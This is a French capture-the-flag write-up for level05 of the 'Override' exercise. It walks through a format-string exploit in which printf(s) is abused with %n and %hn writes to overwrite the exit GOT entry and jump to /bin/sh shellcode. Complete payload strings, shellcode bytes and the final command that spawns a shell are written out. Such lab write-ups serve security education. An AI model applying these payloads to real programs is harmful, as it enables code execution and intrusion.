


# Override / Level05


## Lire le fichier level05

On explore le fichier avec dogbolt et on peut voir cette ligne:

`printf(s);`

Ca l air d etre juste une string vulnerability.

## Exploit

Le printf vulnerability a deja ete vu dans Rainfall mais pour resume le %n permet d ecrire le nombre de caracteres dans le printf en memoire donne.

https://samsclass.info/127/proj/ED204c.htm

```
(python -c 'print "\xe0\x97\x04\x08JUNK\xe4\x97\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%n"')
Program received signal SIGSEGV, Segmentation fault.
0x00000042 in ?? ()
(gdb) x/1x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000042
```
On a juste a ecrire un shellcode /bin/sh puis ecrire sur la memoire de exit l'adresse de notre shellcode.

## Difficultes.

- Pas assez de place pour le shellcode.

- `s[i] ^= 0x20u;` qui change notre shellcode.

## Solutions.

Pour le nombre de place, j'ai utilisé %hn qui au lieu d'ecrire sur un byte a la fois il ecrit sur 2 bytes.
Ce la permet de passer  de 

`(python -c 'print "\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08JUNK\xe3\x97\x04\x08JUNK\xe4\x97\x04\x08%x%x%x%x%x%x%x%x%x%n%x.%n.%n%x"')` 

à 

`(python -c 'print \xe0\x97\x04\x08junk\xe2\x97\x04\x08%x%x%x%x%x%x%x%x%x%hn%x%hn"')`

On prend aussi un shellcode plus petit donc celui la:

`\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80`

Maintenant le seul soucis est le \x51 qui va etre transforme en \x71. Mais comme on peut ecrire sur la memoire avec %hn on va utilise cette technique pour ecrire \x51 sur l emplacement memoire du shellcode correspondant.

`run <<< $(python -c 'print "\xc5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"')`

Avec cette command on ecrit sur la memoire de notre shellcode situe a ffffd6c5. 






Cela marche!

On peut maintenant ecrire sur la memoire de exit.

cela ouvre un bin/dash sur gdb!

Il ya 0x20 de diff entre la memoire de gdb et la memoire normale

\xc5\xd6\xff\xff => doit etre \xe5\xd6\xff\xff
et pour ffffd6bf => ffffd6df

> (python -c 'print "\xe5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28302x%hn%76064x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"';cat) | ./level05